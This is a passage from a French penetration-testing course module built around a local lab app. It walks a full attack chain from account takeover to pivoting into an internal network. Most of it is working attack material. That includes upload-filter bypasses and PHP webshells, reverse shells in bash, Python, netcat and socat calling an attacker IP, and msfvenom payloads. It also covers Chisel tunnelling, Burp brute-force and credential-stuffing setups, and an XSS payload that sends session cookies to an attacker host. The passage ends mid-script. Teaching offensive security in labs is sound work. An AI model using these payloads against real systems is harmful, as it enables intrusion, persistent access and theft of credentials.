else:
    print("[-] L'injection a pu echouer")

print()
print("=" * 60)
print("Etape 3 — Verifier l'Account Takeover")
print("=" * 60)

s = requests.Session()
r = s.post(f"{BASE}/login", data={
    "email": "admin@ecovault.com",
    "password": "Hacked2026!"
}, allow_redirects=False)

if r.status_code == 302 or "dashboard" in r.text.lower():
    print("[!!!] ACCOUNT TAKEOVER REUSSI !")
    print(f"[+] Nouveau mot de passe : Hacked2026!")
else:
    print(f"[-] ATO echoue (status: {r.status_code})")
```

```bash
python3 xss_csrf_ato.py
```

**Résultat attendu :** Le mot de passe admin est changé en `Hacked2026!`. L'attaquant peut maintenant se connecter en tant qu'admin.

---

## 5. Étape 4 — Upload Webshell (T1505.003)

### MITRE ATT&CK

| ID | Nom | Tactique | Description |
|----|-----|----------|-------------|
| **T1505** | Server Software Component | TA0003 (Persistence) | Installation d'un composant logiciel serveur |
| **T1505.003** | Web Shell | TA0003 (Persistence) | Dépôt d'un webshell pour accès persistant |

**Pourquoi un webshell :** Après l'ATO, on a accès à l'interface admin, mais pas encore d'exécution de commandes sur le serveur. Un webshell PHP est une **backdoor minimaliste** qui permet d'exécuter des commandes système via une requête HTTP.

### 5.1 Contournement de filtres d'upload

#### Double extension

```bash
shell.php.jpg       # Apache peut executer .php si mal configure
shell.php;.jpg      # Apache peut ignorer ; (configuration malveillante)
```

#### Null byte injection (PHP < 5.3.4)

```bash
shell.php%00.jpg    # Tronque a shell.php
```

#### Case bypass

```bash
shell.pHp
shell.Php
shell.PHP5
shell.phtml
```

#### Magic bytes injection

**Principe :** Certains filtres vérifient les **magic bytes** (signature) du fichier. On préfixe le webshell avec les magic bytes d'une image.

```bash
# Magic bytes PNG
printf '\x89\x50\x4E\x47\x0D\x0A\x1A\x0A' > /tmp/shell_png.php
echo '<?php system($_GET["cmd"]); ?>' >> /tmp/shell_png.php

# Magic bytes GIF
echo 'GIF89a<?php system($_GET["cmd"]); ?>' > /tmp/shell_gif.php

# Verifier les magic bytes
file /tmp/shell_png.php
# Output: PNG image data, 0 x 0
```

#### Content-Type manipulation

```bash
curl -X POST http://localhost:8080/admin/upload \
    -F "file=@shell.php;type=image/jpeg" \
    -F "submit=Upload"
```

### 5.2 Webshell minimal PHP vs complet

**Webshell minimal (une ligne) :**

```php
<?php system($_GET['cmd']); ?>
```

```bash
curl "http://localhost:8080/uploads/shell.php?cmd=id"
# Output: uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

**Webshell avec authentification :**

```php
<?php
$pass = "wshell2026";
if ($_POST['auth'] === $pass) {
    echo "<pre>" . shell_exec($_POST['cmd']) . "</pre>";
} else {
    echo "Acces refuse.";
}
?>
```

```bash
curl -X POST "http://localhost:8080/uploads/ws.php" \
    -d "auth=wshell2026&cmd=id" -s
```

#### Webshell complet — p0wny-shell

```bash
wget https://raw.githubusercontent.com/flozz/p0wny-shell/master/shell.php \
    -O /tmp/p0wny_shell.php
sed -i 's/\$AUTH_PASSWORD = "p0wny!!";/\$AUTH_PASSWORD = "MonMotDePasse";/' \
    /tmp/p0wny_shell.php

# Uploader
curl -F "file=@/tmp/p0wny_shell.php" \
    -F "submit=Upload" \
    http://localhost:8080/admin/upload
```

### 5.3 Outil : weevely — Génération de webshell

**weevely** génère des webshells chiffrés avec des fonctionnalités avancées.

```bash
git clone https://github.com/epinna/weevely3.git /opt/weevely
cd /opt/weevely && pip install -r requirements.txt
alias weevely='python3 /opt/weevely/weevely.py'
```

**Génération et upload :**

```bash
# Generer un webshell avec mot de passe
weevely generate SuperSecretP@ss /tmp/weevely_shell.php

# Uploader via le formulaire
curl -F "file=@/tmp/weevely_shell.php" \
    -F "submit=Upload" \
    http://localhost:8080/admin/upload

# Se connecter mode interactif
weevely http://localhost:8080/uploads/weevely_shell.php SuperSecretP@ss
```

**Commandes weevely :**

| Commande | Rôle |
|----------|------|
| `:audit_filesystem` | Audit complet du système de fichiers |
| `:audit_suidsgid` | Recherche des binaires SUID/SGID |
| `:file_download` | Téléchargement de fichiers du serveur |
| `:file_upload` | Upload de fichiers vers le serveur |
| `:system_ext` | Exécution de commandes shell |
| `:system_info` | Informations système |
| `:sql_console` | Console SQL interactive |
| `:net_curl` | Requêtes HTTP depuis le serveur |
| `:net_ifconfig` | Informations réseau |

### 5.4 TP Guidé — Upload sur /admin/upload

**Objectif :** Uploader un webshell PHP sur le serveur via le formulaire d'upload admin.

**Étape 1 — Accéder à la page d'upload :**

```bash
curl -c /tmp/admin_cookies.txt \
    -X POST http://localhost:8080/login \
    -d "email=admin@ecovault.com&password=Hacked2026!" -L

curl -b /tmp/admin_cookies.txt http://localhost:8080/admin/upload
```

**Étape 2 — Tester les filtres :**

```bash
# .txt devrait passer
echo "test" > /tmp/test.txt
curl -b /tmp/admin_cookies.txt -X POST http://localhost:8080/admin/upload \
    -F "file=@/tmp/test.txt" -F "submit=Upload"

# .php devrait etre bloque
echo '<?php phpinfo(); ?>' > /tmp/test.php
curl -b /tmp/admin_cookies.txt -X POST http://localhost:8080/admin/upload \
    -F "file=@/tmp/test.php" -F "submit=Upload"
```

**Étape 3 — Contourner les filtres :**

```bash
# Technique 1 : Double extension .php.jpg
echo '<?php system($_GET["cmd"]); ?>' > /tmp/shell.php.jpg
curl -b /tmp/admin_cookies.txt -X POST http://localhost:8080/admin/upload \
    -F "file=@/tmp/shell.php.jpg" -F "submit=Upload"

# Technique 2 : Extension .phtml
echo '<?php system($_GET["cmd"]); ?>' > /tmp/shell.phtml
curl -b /tmp/admin_cookies.txt -X POST http://localhost:8080/admin/upload \
    -F "file=@/tmp/shell.phtml" -F "submit=Upload"

# Technique 3 : Magic bytes PNG
printf '\x89PNG\r\n\x1a\n<?php system($_GET["cmd"]); ?>' > /tmp/shell_magic.png.php
curl -b /tmp/admin_cookies.txt -X POST http://localhost:8080/admin/upload \
    -F "file=@/tmp/shell_magic.png.php" -F "submit=Upload"
```

**Étape 4 — Vérifier les fichiers uploadés :**

```bash
curl "http://localhost:8080/uploads/shell.php.jpg?cmd=id"
curl "http://localhost:8080/uploads/shell.phtml?cmd=id"
curl "http://localhost:8080/uploads/shell_magic.png.php?cmd=id"
```

**Étape 5 — Uploader un webshell fonctionnel avec auth :**

```bash
cat > /tmp/webshell_final.php << 'EOF'
GIF89a
<?php
$pass = "wshell2026";
if ($_POST['auth'] === $pass) {
    echo "<pre>" . shell_exec($_POST['cmd']) . "</pre>";
} else {
    echo "Auth required.";
}
?>
EOF

curl -b /tmp/admin_cookies.txt -X POST http://localhost:8080/admin/upload \
    -F "file=@/tmp/webshell_final.php" -F "submit=Upload"

# Tester
curl -X POST "http://localhost:8080/uploads/webshell_final.php" \
    -d "auth=wshell2026&cmd=id"
```

**Étape 6 — Utiliser weevely :**

```bash
python3 /opt/weevely/weevely.py generate wshell2026 /tmp/weevely_final.php

curl -b /tmp/admin_cookies.txt -X POST http://localhost:8080/admin/upload \
    -F "file=@/tmp/weevely_final.php" -F "submit=Upload"

python3 /opt/weevely/weevely.py \
    http://localhost:8080/uploads/weevely_final.php wshell2026
```

**Résultat attendu :** Au moins un webshell est fonctionnel. L'attaquant peut exécuter des commandes système sur le serveur web.

---

## 6. Étape 5 — Reverse Shell (T1059.003)

### MITRE ATT&CK

| ID | Nom | Tactique | Description |
|----|-----|----------|-------------|
| **T1059** | Command and Scripting Interpreter | TA0002 (Execution) | Exécution de commandes via un interpréteur |
| **T1059.003** | Unix Shell | TA0002 (Execution) | Obtention d'un shell interactif sur le serveur |

**Pourquoi un reverse shell plutôt qu'un webshell :**
- **Webshell :** limité par PHP (timeout, ressources, requête HTTP synchrone)
- **Reverse shell :** shell interactif complet, stabilisé, pas de timeout

### 6.1 Reverse shell Bash

**Payload classique :**

```bash
bash -i >& /dev/tcp/ATTACKANT_IP/PORT 0>&1
```

**Décomposition :**

| Partie | Explication |
|--------|-------------|
| `bash -i` | Lance un shell interactif |
| `>&` | Redirige stdout ET stderr |
| `/dev/tcp/IP/PORT` | Fichier spécial Bash qui crée une connexion TCP |
| `0>&1` | Redirige stdin vers stdout (bidirectionnel) |

**Variante avec mkfifo (plus fiable, même si /dev/tcp désactivé) :**

```bash
mkfifo /tmp/f; nc ATTACKANT_IP 4444 </tmp/f | /bin/bash >/tmp/f 2>&1; rm /tmp/f
```

### 6.2 Reverse shell Python

```python
python3 -c '
import socket,subprocess,os
s=socket.socket(socket.AF_INET,socket.SOCK_STREAM)
s.connect(("ATTACKANT_IP",4444))
os.dup2(s.fileno(),0)
os.dup2(s.fileno(),1)
os.dup2(s.fileno(),2)
subprocess.call(["/bin/bash","-i"])
'
```

**Explication ligne par ligne :**

| Ligne | Rôle |
|-------|------|
| `socket.socket(AF_INET, SOCK_STREAM)` | Crée un socket TCP |
| `s.connect(("IP", 4444))` | Se connecte au listener |
| `os.dup2(s.fileno(), 0)` | Redirige stdin (0) vers le socket |
| `os.dup2(s.fileno(), 1)` | Redirige stdout (1) vers le socket |
| `os.dup2(s.fileno(), 2)` | Redirige stderr (2) vers le socket |

### 6.3 Reverse shell PHP

```bash
# Depuis le webshell, executer le reverse shell Bash
curl -X POST "http://localhost:8080/uploads/webshell_final.php" \
    -d "auth=wshell2026&cmd=bash -c 'bash -i >& /dev/tcp/ATTACKANT_IP/4444 0>&1'"
```

### 6.4 Reverse shell Netcat

```bash
# Netcat sans -e (option interdite sur systèmes modernes)
rm /tmp/f; mkfifo /tmp/f
cat /tmp/f | /bin/bash -i 2>&1 | nc ATTACKANT_IP 4444 > /tmp/f
```

### 6.5 Outils — rlwrap, ncat, msfvenom

#### rlwrap — Readline wrapper

```bash
sudo apt install rlwrap

# Ameliore le terminal : historique, auto-completion, fleches
rlwrap nc -lvnp 4444
```

**Pourquoi rlwrap :** Sans rlwrap, pas de flèche directionnelle, pas d'historique, pas de tabulation.

#### ncat — Netcat amélioré (Nmap suite)

```bash
sudo apt install ncat

ncat -lvnp 4444 --ssl           # Avec chiffrement TLS
ncat -lvnp 4444 --keep-open     # Reste en ecoute apres deconnexion
```

#### msfvenom — Génération de payloads Metasploit

```bash
sudo apt install metasploit-framework

# Linux reverse shell
msfvenom -p linux/x64/shell_reverse_tcp LHOST=ATTACKANT_IP LPORT=4444 \
    -f elf -o /tmp/reverse_shell.elf

# PHP reverse shell
msfvenom -p php/reverse_php LHOST=ATTACKANT_IP LPORT=4444 \
    -f raw -o /tmp/reverse_shell.php

# Lister les payloads disponibles
msfvenom -l payloads | grep reverse
```

**Handler Metasploit :**

```bash
msfconsole -q
msf6 > use exploit/multi/handler
msf6 > set payload linux/x64/shell_reverse_tcp
msf6 > set LHOST 0.0.0.0
msf6 > set LPORT 4444
msf6 > run
```

### 6.6 Stabilisation du shell

Un reverse shell brut est instable et limité. La stabilisation est cruciale.

#### Méthode 1 : Python PTY (recommandée)

```bash
# Dans le reverse shell :
python3 -c 'import pty; pty.spawn("/bin/bash")'

# Background (Ctrl+Z), configurer le terminal local, foreground :
# [Ctrl+Z]
stty raw -echo; fg
# [Enter] [Enter]
reset
export TERM=xterm-256color
export SHELL=/bin/bash
```

**Explication des commandes :**

| Commande | Rôle |
|----------|------|
| `python3 -c 'import pty; pty.spawn("/bin/bash")'` | Crée un pseudo-terminal (PTY) |
| `stty raw -echo` | Configure le terminal local en mode raw |
| `fg` | Ramène le job au premier plan |
| `reset` | Réinitialise le terminal |

#### Méthode 2 : Script (alternative sans Python)

```bash
script -q -c /bin/bash /dev/null
```

#### Méthode 3 : Socat (meilleure stabilisation)

```bash
# Cote attaquant :
sudo socat file:`tty`,raw,echo=0 TCP-LISTEN:4444

# Cote victime :
socat exec:'bash -li',pty,stderr,setsid,sigint,sane TCP:ATTACKANT_IP:4444
```

#### Vérification de la stabilisation

```bash
# Avant stabilisation :
www-data@web-server:/var/www/html/uploads$ stty -a
stty: standard input: inappropriate ioctl for device

# Apres stabilisation (Python PTY) :
www-data@web-server:/var/www/html/uploads$ stty -a
speed 38400 baud; rows 24; columns 80;
```

### 6.7 TP Guidé — Reverse shell depuis le webshell

**Objectif :** Depuis le webshell uploadé, obtenir un reverse shell stabilisé.

**Étape 1 — Lancer le listener :**

```bash
# Terminal 1 : Demarrer un listener avec rlwrap
rlwrap nc -lvnp 4444
```

**Étape 2 — Exécuter le reverse shell depuis le webshell :**

```bash
# Terminal 2 : Depuis le webshell, executer le reverse shell
ATTACKANT_IP=$(hostname -I | awk '{print $1}')
curl -X POST "http://localhost:8080/uploads/webshell_final.php" \
    -d "auth=wshell2026&cmd=bash -c 'bash -i >& /dev/tcp/$ATTACKANT_IP/4444 0>&1'"
```

**Étape 3 — Recevoir le shell (Terminal 1) :**

```
listening on [any] 4444 ...
connect to [10.0.0.5] from (UNKNOWN) [172.17.0.2] 56789
bash: cannot set terminal process group (1): Inappropriate ioctl for device
bash: no job control in this shell
www-data@web-server:/var/www/html/uploads$
```

**Étape 4 — Stabiliser le shell :**

```bash
# Dans le reverse shell :
python3 -c 'import pty; pty.spawn("/bin/bash")'

# Ctrl+Z pour backgrounder le reverse shell
stty raw -echo; fg

# Dans le reverse shell (apres fg) :
reset
export TERM=xterm-256color
export SHELL=/bin/bash
```

**Étape 5 — Vérifier l'accès complet :**

```bash
www-data@web-server:~$ id
uid=33(www-data) gid=33(www-data) groups=33(www-data)

www-data@web-server:~$ hostname
web-server

www-data@web-server:~$ ip a
1: lo: <LOOPBACK,UP,LOWER_UP> ...
2: eth0: <BROADCAST,MULTICAST,UP,LOWER_UP> ...
    inet 172.17.0.2/16 ...
3: eth1: <BROADCAST,MULTICAST,UP,LOWER_UP> ...
    inet 10.0.0.5/24 ...
```

**Résultat attendu :** Reverse shell stabilisé avec un terminal complet. L'attaquant a un accès shell interactif au serveur web. On découvre que le serveur a **deux interfaces réseau** (172.17.0.2 = DMZ, 10.0.0.5 = réseau interne).

---

## 7. Étape 6 — Pivoting vers le réseau interne (T1021)

### MITRE ATT&CK

| ID | Nom | Tactique | Description |
|----|-----|----------|-------------|
| **T1021** | Remote Services | TA0008 (Lateral Movement) | Utilisation de services distants |
| **T1021.001** | Remote Desktop Protocol | TA0008 (Lateral Movement) | Accès à d'autres machines via tunnel |
| **T1041** | Exfiltration Over C2 Channel | TA0010 (Exfiltration) | Exfiltration via le canal C2 |

**Pourquoi le pivoting est crucial :** Le serveur web (172.17.0.2) est en DMZ. Les données sensibles sont sur un serveur interne (10.0.0.10) inaccessible depuis Internet. Le pivoting permet d'utiliser le serveur compromis comme **tremplin** vers le réseau interne.

**Principe du pivoting :**


### 7.1 Reconnaissance réseau interne

Depuis le reverse shell, il faut d'abord comprendre la topologie réseau.

**Commandes réseau de base :**

```bash
# Adresses IP
ip a
# ou
ifconfig

# Table de routage
ip route
# ou
route -n

# Table ARP (machines voisines)
arp -a
# ou
ip neigh
```

**Résultat typique :**


**Ping sweep (scan ICMP du sous-réseau) :**

```bash
for i in $(seq 1 254); do
    (ping -c 1 -W 1 10.0.0.$i 2>/dev/null | grep "bytes from" && echo "Hote actif: 10.0.0.$i") &
done; wait
```

**Scan de ports basique (sans nmap) :**

```bash
for port in 22 25 80 443 8080 8081 3306 6379 8443 9000; do
    (timeout 1 bash -c "echo > /dev/tcp/10.0.0.10/$port" 2>/dev/null && echo "Port ouvert: $port") &
done; wait
```

### 7.2 Outil : Chisel — Tunnel SOCKS

**Chisel** est un outil de tunneling TCP/UDP léger écrit en Go. Il permet de créer un tunnel SOCKS à travers une connexion HTTP/HTTPS.

**Pourquoi Chisel plutôt qu'SSH :**
- Binaire unique (pas de dépendances)
- Fonctionne même si SSH n'est pas installé sur la cible
- Tunnel SOCKS5 intégré avec chiffrement
- Peut traverser les proxies d'entreprise

#### Installation

```bash
# Machine attaquante
wget https://github.com/jpillora/chisel/releases/download/v1.9.1/chisel_1.9.1_linux_amd64.gz
gunzip chisel_1.9.1_linux_amd64.gz
mv chisel_1.9.1_linux_amd64 chisel && chmod +x chisel

# Transferer Chisel sur le serveur compromis
# Terminal 1 (attaquant) : heberger le binaire
python3 -m http.server 9999

# Terminal 2 (reverse shell) : telecharger Chisel
cd /tmp
wget http://10.0.0.5:9999/chisel
chmod +x chisel
```

#### Mise en place du tunnel

**Côté serveur (machine attaquante) :**

```bash
./chisel server -p 8000 --reverse --socks5
```

| Flag | Rôle |
|------|------|
| `-p 8000` | Port d'écoute du serveur Chisel |
| `--reverse` | Mode reverse (le client se connecte au serveur) |
| `--socks5` | Active le proxy SOCKS5 |

**Côté client (serveur compromis) :**

```bash
/tmp/chisel client http://10.0.0.5:8000 R:socks
```

#### Vérification du tunnel

```bash
# Sur la machine attaquante, verifier que le SOCKS ecoute
netstat -tlnp | grep 1080
# Output: tcp 0 0 127.0.0.1:1080 0.0.0.0:* LISTEN
```

Le port `1080` est le port SOCKS5 par défaut de Chisel.

### 7.3 Outil : Proxychains

**Proxychains** force n'importe quel programme à passer par un proxy SOCKS en hookant les appels socket via `LD_PRELOAD`.

```bash
sudo apt install proxychains4
```

**Configuration (`/etc/proxychains4.conf`) :**

```bash
# Mode dynamic chain (tolérant aux pannes)
dynamic_chain
proxy_dns
tcp_read_time_out 15000
tcp_connect_time_out 8000

[ProxyList]
socks5 127.0.0.1 1080
```

| Directive | Rôle |
|-----------|------|
| `dynamic_chain` | Utilise les proxys disponibles (ignore les morts) |
| `strict_chain` | Utilise TOUS les proxys dans l'ordre |
| `proxy_dns` | Résout les DNS via le proxy (évite les fuites DNS) |

**Utilisation :**

```bash
# N'importe quelle commande peut etre proxifiee
proxychains4 nmap -sT -Pn -p80,8081,25 10.0.0.10
proxychains4 curl http://10.0.0.10:8081
proxychains4 ssh user@10.0.0.10
```

**Pourquoi `-sT` avec nmap :** Le SYN scan (`-sS`) utilise des raw sockets, ce qui ne passe pas par un proxy SOCKS. Il faut utiliser `-sT` (TCP connect scan).

### 7.4 Outil : FoxyProxy — Configuration navigateur

**FoxyProxy** permet de basculer rapidement entre plusieurs configurations proxy dans le navigateur.

**Installation :**
- Firefox : [FoxyProxy Standard](https://addons.mozilla.org/fr/firefox/addon/foxyproxy-standard/)
- Chrome : [FoxyProxy](https://chrome.google.com/webstore/detail/foxyproxy/gcknhkkoolaabfmlnjonogaaifnjlfnp)

**Configuration :**

```
1. Cliquer sur l'icone FoxyProxy → Options
2. Add New Proxy
3. Proxy Type: SOCKS5
   IP Address: 127.0.0.1
   Port: 1080
   SOCKS Proxy: ✓ (coché)
4. Save
5. Selectionner ce proxy dans le menu FoxyProxy
```

**Utilisation :** Activer FoxyProxy, naviguer vers `http://10.0.0.10:8081` dans le navigateur. Le trafic passe par Chisel → serveur compromis → réseau interne.

### 7.5 Scan du sous-réseau via proxychains

**Nmap via proxychains :**

```bash
proxychains4 nmap -sT -Pn -p1-10000 10.0.0.10 -oN /tmp/internal_scan.txt

# Scan de version
proxychains4 nmap -sT -Pn -sV -p22,25,80,8081 10.0.0.10
```

**Résultat attendu sur 10.0.0.10 :**


**Curl via proxychains :**

```bash
proxychains4 curl -s http://10.0.0.10:8081
proxychains4 curl -s http://10.0.0.10:25
proxychains4 curl -s http://10.0.0.10:8081/api/status
```

### 7.6 TP Guidé — Pivoter vers 10.0.0.10

**Objectif :** Depuis le reverse shell, pivoter vers le serveur interne 10.0.0.10.

**Étape 1 — Reconnaissance réseau interne :**

Depuis le reverse shell :

```bash
ip a
ip route
arp -a

# Chercher une interface en 10.x.x.x
```

**Étape 2 — Transférer Chisel :**

```bash
# Terminal 1 (attaquant) : heberger Chisel
cd /opt && python3 -m http.server 9999

# Terminal 2 (reverse shell) : telecharger Chisel
cd /tmp && wget http://10.0.0.5:9999/chisel
chmod +x chisel
```

**Étape 3 — Mettre en place le tunnel :**

```bash
# Terminal 3 (attaquant) : serveur Chisel
cd /opt && ./chisel server -p 8000 --reverse --socks5

# Terminal 2 (reverse shell) : client Chisel
/tmp/chisel client http://10.0.0.5:8000 R:socks
```

**Étape 4 — Configurer Proxychains :**

```bash
# Terminal 4 : ajouter la config proxychains
echo 'socks5 127.0.0.1 1080' | sudo tee -a /etc/proxychains4.conf
```

**Étape 5 — Scanner le serveur interne :**

```bash
proxychains4 nmap -sT -Pn -p21,22,25,80,443,8081,3306,6379 10.0.0.10
```

**Résultat attendu :**

```
PORT     STATE    SERVICE
22/tcp   filtered ssh
25/tcp   open     smtp
80/tcp   open     http
8081/tcp open     http-proxy
```

**Étape 6 — Accéder au serveur HTTP interne :**

```bash
proxychains4 curl -s http://10.0.0.10:8081 > /tmp/internal_page.html
cat /tmp/internal_page.html
```

**Étape 7 — Interagir avec le SMTP interne :**

```bash
echo -e "EHLO attacker.com\r\nVRFY root\r\nQUIT\r\n" | proxychains4 ncat -w 3 10.0.0.10 25
```

**Étape 8 — Accès via le navigateur (FoxyProxy) :**

```
1. Activer FoxyProxy sur SOCKS5 127.0.0.1:1080
2. Naviguer vers http://10.0.0.10:8081
3. Explorer l'interface web interne
```

**Résultat attendu :** L'attaquant peut scanner, interroger et interagir avec le serveur interne 10.0.0.10 comme s'il était directement connecté au réseau interne.

---

## 8. Burp Suite avancé

**Pourquoi Burp Suite est essentiel :** Burp Suite est le couteau suisse du pentest web. Dans ce module, nous utilisons ses fonctionnalités avancées pour automatiser les attaques, détecter les vulnérabilités out-of-band, et gérer les sessions complexes.

### 8.1 Burp Intruder — Modes d'attaque

**Intruder** permet d'automatiser des requêtes HTTP paramétrées. Il existe 4 modes.

#### Sniper (tireur d'élite)

**Principe :** Une seule payload position, testée pour chaque mot de la wordlist.


**Utilisation typique :** Bruteforce d'ID, enumeration de fichiers.

```http
GET /api/profile/§1§ HTTP/1.1
Host: localhost:8080
Cookie: sessionid=abc123
```

#### Battering ram (bélier)

**Principe :** Plusieurs positions, toutes remplacées par le même mot.

```http
POST /admin/change-password HTTP/1.1
Host: localhost:8080

password=§Hacked2026!§&confirm=§Hacked2026!§
```

**Utilisation typique :** Champs qui doivent avoir la même valeur (confirmation mot de passe).

#### Pitchfork (fourche)

**Principe :** Plusieurs positions, chacune avec sa propre wordlist. Appariement parallèle.

```http
POST /api/login HTTP/1.1
Content-Type: application/json

{"email": "§user@ecovault.com§", "password": "§Admin2024!§"}
```

**Utilisation typique :** Credential stuffing (paires email:password pré-définies).

#### Cluster bomb (bombe à fragmentation)

**Principe :** Chaque position combinée avec chaque mot des autres listes (produit cartésien).


**Utilisation typique :** Bruteforce d'authentification (tous les mots de passe pour tous les utilisateurs).

**Configuration dans Burp :**
1. Intercepter la requête POST `/login`
2. `Ctrl+I` → Send to Intruder
3. Entourer `email` et `password` avec `§`
4. Payload sets :
   - Set 1 : emails ([admin@ecovault.com, user@ecovault.com])
   - Set 2 : passwords (wordlist brute force)
5. Attack type: Cluster bomb
6. Start attack

### 8.2 Collaborator — Détection out-of-band

**Burp Collaborator** détecte les interactions réseau hors bande (out-of-band).

**Utile pour :**
- XXE out-of-band (quand le résultat n'est pas affiché)
- Blind SQLi (exfiltration DNS)
- SSRF avec callback
- Template injection (RCE avec callback DNS)

**Utilisation typique :**

1. Générer un payload Collaborator : `Burp → Project options → Collaborator → Generate payload`
2. Injecter dans l'application :
```bash
curl "http://localhost:8080/api/ping?host=8.8.8.8; nslookup COLLABORATOR_PAYLOAD"
```
3. Aller dans Collaborator → "Poll now"
4. Si une interaction apparaît, la vulnérabilité est confirmée

### 8.3 Extensions essentielles

#### Turbo Intruder

**Rôle :** Envoi de milliers de requêtes par seconde (race conditions, brute force massif).

**Installation :** `Extender → BApp Store → Turbo Intruder`

**Script pour race condition :**

```python
def queueRequests(target, wordlists):
    engine = RequestEngine(endpoint=target.endpoint,
                           concurrentConnections=50,
                           requestsPerConnection=100,
                           pipeline=True)
    for i in range(50):
        engine.queue(target.req, i)
    engine.start(timeout=10)

def handleResponse(req, interesting):
    table.add(req)
```

**Scénario :** Intercepter `POST /api/transfer?coupon=VIP50`, envoyer à Turbo Intruder, coller le script, lancer. Observer les réponses multiples avec `"success": true`.

#### Active Scan++

**Rôle :** Améliore le scanner passif et actif de Burp.

**Fonctionnalités :**
- Détection de CVE connues (Log4Shell, Spring4Shell)
- Détection SSTI
- Détection GraphQL injections
- Détection WebSocket vulnerabilities
- Checks OWASP Top 10 étendus

**Utilisation :** Clic droit sur la requête → "Do an active scan" → "Use Active Scan++"

#### Autorize

**Rôle :** Détecte les failles de contrôle d'accès (IDOR) en réexécutant les requêtes avec un cookie non privilégié.

**Installation :** BApp Store → Autorize

**Configuration :**
1. Ajouter deux comptes : **High privilege** (admin) et **Low privilege** (user)
2. Naviguer avec le compte admin
3. Autorize réexécute chaque requête avec le token user
4. Si la réponse est identique = **IDOR**

**Couleurs Autorize :**
- ROUGE : IDOR probable (même réponse pour user et admin)
- VERT : Contrôle d'accès correct
- GRIS : Pas de différence entre les comptes

#### Hackvertor

**Rôle :** Transformation de données (encodage/décodage, chiffrement, hachage) avec langage de balises.

```html
<!-- Encoder en base64 -->
<@base64>admin:password</@base64>

<!-- Encoder en URL -->
<@urlencode><script>alert(1)</script></@urlencode>

<!-- Chaine de transformations -->
<@base64><@urlencode><script>alert(1)</script></@urlencode></@base64>
```

**Dans Intruder :** Envelopper la payload avec `<@base64>§payload§</@base64>` → chaque payload est encodée avant envoi.

### 8.4 Macros & Session Handling

**Pourquoi :** Certaines applications utilisent des tokens anti-CSRF dynamiques, des JWT qui expirent, ou des sessions à usage unique.

#### Créer une macro de login automatique

```
Project options → Sessions → Macros → Add
```

1. Cliquer sur **Add**
2. Sélectionner la requête POST `/login`
3. Configurer les paramètres :
```http
POST /login HTTP/1.1
Host: localhost:8080

email=admin@ecovault.com&password=Hacked2026!
```
4. Creer une règle de session :
```yaml
Rule Description: "Auto-login when session expires"
Scope: Tous les outils
Check: "If session is invalid, run macro"
Action: Run macro → Login macro
```

#### Règles de session avancées

**Règle : Vérification de session :**

```yaml
Description: "Verifier si le token JWT est expire"
- Si la reponse contient "401" ou "redirect to /login"
- Executer la macro de re-login
- Reprendre la requete originale avec le nouveau token
```

**Règle : Extraction de token anti-CSRF :**

```yaml
Description: "Extraire et injecter le token CSRF"
- Avant chaque requete POST sensible :
  1. GET pour obtenir la page avec le token
  2. Extraire le token CSRF (regex ou XPath)
  3. Injecter le token dans la requete POST originale
```

#### Cas pratique — Login avec JWT + CSRF token

```
Situation : L'application a un JWT qui expire toutes les 5 min
            + un token CSRF dynamique dans chaque page

Solution Burp :
1. Macro 1: GET / → Extraire le token CSRF
2. Macro 2: POST /login → Recuperer le JWT
3. Regle: Avant chaque requete, executer les macros 1 et 2
4. Regle: Si la reponse est 401, re-executer les macros
```

### 8.5 TP Guidé — Burp Intruder pour bruteforce sur le lab

**Objectif :** Utiliser Burp Intruder pour bruteforcer le login après l'ATO.

**Étape 1 — Capturer la requête :**
1. Configurer le proxy Burp (127.0.0.1:8080)
2. Naviguer sur http://localhost:8080/login
3. Soumettre le formulaire
4. La requête apparaît dans Proxy → HTTP History

**Étape 2 — Envoyer à Intruder :**
1. Clic droit → Send to Intruder
2. Positions : entourer `password` avec `§`
3. Attack type: **Sniper**

**Étape 3 — Configurer les payloads :**
1. Payload type: **Simple list**
2. Charger une wordlist : Admin2024!, admin123, Passw0rd!, etc.

**Étape 4 — Options :**
1. Follow redirects: **Always**
2. Grep - Match: "Invalid", "success", "dashboard"
3. Threads: 5

**Étape 5 — Lancer :**
1. Start attack
2. Trier par `Length` — la réponse différente = succès

**Étape 6 — Cluster bomb (multi-utilisateurs) :**
1. Entourer aussi `email` : `§admin@ecovault.com§`
2. Attack type: **Cluster bomb**
3. Payload set 1: emails, Payload set 2: passwords
4. Start attack

---

## 9. TP Synthèse : Parcours complet

### 9.1 Objectif

Réaliser l'ensemble de la chaîne d'attaque en une session :


### 9.2 Script d'automatisation complet

```python
#!/usr/bin/env python3
"""
tp_synthese_complet.py — Parcours complet Module 4
Enchaine : Recon → XSS → CSRF → ATO → Webshell → Reverse Shell → Pivoting
"""

import requests
import subprocess
import time
import sys

BASE = "http://localhost:8080"
ATTACKER_IP = "10.0.0.5"
LISTENER_PORT = 4444
CHISEL_PORT = 8000

session = requests.Session()

print("=" * 70)
print("TP SYNTHESE - Exploitation chainee & Pivoting")
print("=" * 70)

# PHASE 1 : Reconnaissance (T1592)
print("\n[1] RECONNAISSANCE (T1592)")
print("-" * 50)
print("[*] Decouverte des endpoints...")
endpoints = ["/", "/login", "/search", "/admin", "/admin/upload",
             "/admin/templates", "/api/", "/api/ping", "/uploads/"]
for ep in endpoints:
    r = session.get(f"{BASE}{ep}", allow_redirects=False)
    print(f"  {ep}: {r.status_code} ({len(r.text)} bytes)")

# PHASE 2 : XSS (T1189 / T1539)
print("\n[2] XSS / VOL DE SESSION (T1189 -> T1539)")
print("-" * 50)

print("[*] Test de la XSS sur /search?q=...")
test_payload = "XSS-TEST-M4"
r = session.get(f"{BASE}/search", params={"q": test_payload})
if test_payload in r.text:
    print("  [+] XSS confirmee : le payload est reflete")
else:
    print("  [-] XSS non detectee - abandon")
    sys.exit(1)

xss_payload = f"""<script>
var img = new Image();
img.src = 'http://{ATTACKER_IP}:9999/steal?c=' + document.cookie;
</script>"""
print(f"[*] Injection du payload de vol de cookie...")
r = session.get(f"{BASE}/search", params={"q": xss_payload})
print(f"  [+] Payload injecte (taille: {len(r.text)} bytes)")

# PHASE 3 : CSRF -> Account Takeover (T1190)
print("\n[3] CSRF -> ACCOUNT TAKEOVER (T1190)")
print("-" * 50)

r = session.get(f"{BASE}/admin/change-password")
if "csrf" in r.text.lower() or "_token" in r.text.lower():
    print("  [!] Token CSRF detecte - methode alternative necessaire")
else:
    print("  [+] Pas de token CSRF -> vulnerable")

xss_csrf = f"""<script>
var f = document.createElement('form');
f.method = 'POST'; f.action = '{BASE}/admin/change-password';
f.style.display = 'none';
var p1 = document.createElement('input');
